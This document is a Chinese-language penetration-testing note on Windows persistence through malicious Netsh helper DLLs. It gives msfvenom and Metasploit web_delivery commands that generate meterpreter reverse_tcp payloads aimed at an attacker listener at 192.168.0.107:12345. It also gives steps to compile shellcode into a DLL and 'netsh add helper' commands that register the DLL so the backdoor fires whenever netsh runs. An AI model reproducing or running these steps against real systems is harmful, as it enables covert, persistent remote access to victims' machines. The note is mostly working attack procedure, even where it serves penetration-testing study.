 #### Netsh Helper DLL
	https://github.com/outflanknl/NetshHelperBeacon
	https://github.com/rtcrowley/Offensive-Netsh-Helper
#### MSFvenom生成DLL
	生成DLL格式木马
![image](/assets/Pentest_Note/master/img/501.png)

	传至靶机执行命令
	>netsh add helper C:\Windows\Temp\help.dll
![image](/assets/Pentest_Note/master/img/502.png)
#### MSF+web_delivery
	关闭netsh权限不会掉，调用的powershell
	>use exploit/multi/script/web_delivery
	>set target 2            #PSH
	>set payload windows/x64/meterpreter/reverse_tcp
	>set lhost 192.168.0.107
	>set lport 12345
![image](/assets/Pentest_Note/master/img/503.png)

	Visual Studio新建空白DLL项目，源文件添加现有文件
	https://github.com/rtcrowley/Offensive-Netsh-Helper/blob/master/netshlep.cpp 
	复制生成的代码进文件中，配置管理器新建x64位数后生成解决方案，配置类型选择位动态库复制DLL到靶机执行
![image](/assets/Pentest_Note/master/img/504.png)
![image](/assets/Pentest_Note/master/img/505.png)

	>netsh add helper helper.dll
![image](/assets/Pentest_Note/master/img/506.png)
#### MSF&Shellcode
	关闭netsh后权限会掉
	https://github.com/outflanknl/NetshHelperBeacon
	MSFvenom生成.c格式
	>msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.107 LPORT=12345 -f c -o /var/www/html/1.c
	Visual Studio打开项目
	若系统是64位需设置配置管理器为64位项目，反之32(解决方案右键属性)
![image](/assets/Pentest_Note/master/img/507.png)

	将MSF生成shellcode粘贴进相应位置后生成解决方案。
![image](/assets/Pentest_Note/master/img/508.png)
![image](/assets/Pentest_Note/master/img/509.png)

	会在项目目录x64/Release下生成dll
	复制DLL到靶机system32目录下，执行命令
	>netsh add helper C:\Windows\System32\NetshHelperBeacon.dll
![image](/assets/Pentest_Note/master/img/510.png)

	只要启动netsh就会触发
![image](/assets/Pentest_Note/master/img/511.png)
